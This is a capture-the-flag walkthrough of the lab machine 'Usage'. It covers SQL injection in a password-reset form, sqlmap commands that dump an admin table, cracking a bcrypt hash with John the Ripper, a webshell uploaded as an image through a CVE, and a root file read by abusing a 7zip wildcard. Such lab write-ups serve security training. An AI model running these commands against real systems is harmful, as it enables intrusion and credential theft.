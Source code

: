 ```yaml
---
title: Usage
tags:
  - Linux
  - CVE
  - Wildcard
---
```

![](Pasted%20image%2020240501234511.png)

## Reconnaissance

Firstly, I added the new host to my known ones:

```shell
sudo echo "10.10.11.18 usage.htb" | sudo tee -a /etc/hosts
```

Secondly, I started performing an `Nmap` scan with:

```shell
nmap -sC -T4 -p- usage.htb > sC.txt

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-01 22:05 CEST
Nmap scan report for usage.htb (10.10.11.18)
Host is up (0.041s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http
|_http-title: Daily Blogs

Nmap done: 1 IP address (1 host up) scanned in 17.41 seconds
```

Then I tried to use dirsearch but found nothing interesting, so I decided to read the code. While doing this I visualized another domain: `admin.usage.htb`, 

![](Pasted%20image%2020240501234847.png)

so I added it to the known hosts:

```shell
sudo echo "10.10.11.18 admin.usage.htb" | sudo tee -a /etc/hosts
```

When I visited the new domain I found an admin login panel:

![](Pasted%20image%2020240501235015.png)

Then I tried to do a login bypass but I didn't get anything 🤕.
After searching quite a lot I tried the "Reset password" option of the main domain (having created an account before doing it) and then I performed manual sql injections. The one successful was:

```sql
example@example.test' AND 1==1;--
```

So I captured the request with **Burpsuite**:

```html
POST /forget-password HTTP/1.1
Host: usage.htb
Content-Length: 96
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://usage.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Sec-GPC: 1
Accept-Language: en-US,en;q=0.9
Referer: http://usage.htb/forget-password
Accept-Encoding: gzip, deflate, br
Cookie: XSRF-TOKEN=eyJpdiI6IkpVektaMURBeHJia1ZZeVpCdDhsTkE9PSIsInZhbHVlIjoiTmhkVU5lRm9zSkFNNTNGQzlxRDZMY2ZNTytBNEVaeHk0S3FNdzd4NkhqWjVlTDRDQUpJZ3lCUmRDQVFtN0pkN3p2Y2QwQklmRC81a3FyRWw3SG9ibllmZUtORHFMRHl4RkljK1doK3pkd1RCOG1UNkZkWDFKbUhBM01mcWYyWEoiLCJtYWMiOiJjMmY3YmJhYjI0ZTZhMjgwYzVkZmNhZmE0NTQyMjY5MGIwMWFmOWVlMGY3N2ExNDY5YzA1N2ZiOGM5YWU2YzY5IiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IkUvOVFmWllQZmhhTzdiS3ZSalMzM0E9PSIsInZhbHVlIjoiUFgwV0dqN0h2aWNGczViZmRDU08vZkNMOERnRUZuQ2RLaEd5REJUZGNxaVVzR1lqOWt2MnhDTCtHd29qNDY2dU10R3YvbStRUmV2RitpcE5JNk5xbVB0Vnd2WHNlWjBiV3p1QW4zc3BPSlB1WnZuNVFsZXh1cXNwNUpjeDRMU28iLCJtYWMiOiI3MmQ3NWI0YjhmMzQ4NTFjM2Q5M2M5ODBhMjNlZjI4M2M0MmI2OWI2ZjEzNjk4MDIzYmE4ZGJmYjQ4Mjc3MWNjIiwidGFnIjoiIn0%3D
Connection: close

_token=VKIqVeHHgY3azyNB5HmGBngdHk5IPZgiB5srIcBU&email=example@example.test
```

and decided to use SQLMap to automate the process:
- Visit [SQLMap 🪲](/notes/tools/Sqlmap.md) note for more commands
- As I know that AND worked, I used BUT technique

```shell
sqlmap -r request.txt -p 'email' --dbms=mysql --level=3 --risk=3 --batch --technique=BUT --dbs --dump --threads 3

sqlmap -r request.txt  -p 'email' --dbms=mysql --level=3 --risk=3 --technique=BUT --batch --threads 3 -D usage_blog -T admin_users  --dump

sqlmap -r request.txt  -p 'email' --dbms=mysql --level=3 --risk=3 --technique=BUT --batch --threads 3 -D usage_blog -T admin_users -C name,username,password --dump
```

 I obtained this creds: `admin:$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2`, so it was time for brute forcing.

First I checked what kind of hash was it in [hashes.com](https://hashes.com/en/tools/hash_identifier)

Then I decided to use John the Ripper for this:

```shell
john hash.txt --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt
```

After gaining the password, I logged into the initial admin domain:

![](Pasted%20image%2020240502000034.png)

## Weaponization

After a bit of research I found the [CVE-2023-24249](https://flyd.uk/post/cve-2023-24249/

## Exploitation

First, I created in my local machine an image with a php code inside of it like:
- Check [Reverse shells 👾](/notes/reverse_shells.md) for the shell

```shell
echo "shell..." > shell.jpg
```

Then I went to the `Administrator >> Setting` at top right on the screen

![](Pasted%20image%2020240502000359.png)

Now what I did was to catch the request of changing the image with burpsuite by the one I previously created and modified the following:

![](Pasted%20image%2020240502000602.png)

![](Pasted%20image%2020240502000625.png)

And then I got the reverse shell :D


### User flag

```shell
cat /home/dash/user.txt
XXXXXXXXXXXXXXXXXXXXXX
```

## Privilege Escalation

First of all, I pivoted to the other user account, `xander`. To do it, I observed the hidden file `.monitrc` and found the credentials of `xander`.

After loggin as him, I performed:

```shell
sudo -l

Matching Defaults entries for xander on usage:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User xander may run the following commands on usage:
    (ALL : ALL) NOPASSWD: /usr/bin/usage_management
```

So I executed the program and, after arriving to the conclusion of being a 7zip performing a backup using a wildcard, I decided to use this in my favour:

```shell
cd /var/www/html/
touch '@root.txt'
ln -s -r /root/root.txt root.txt
sudo /usr/bin/usage_management # and select the 1st option
```

### Root flag

was obtained in the previous exit of the program

==Machine pwned==

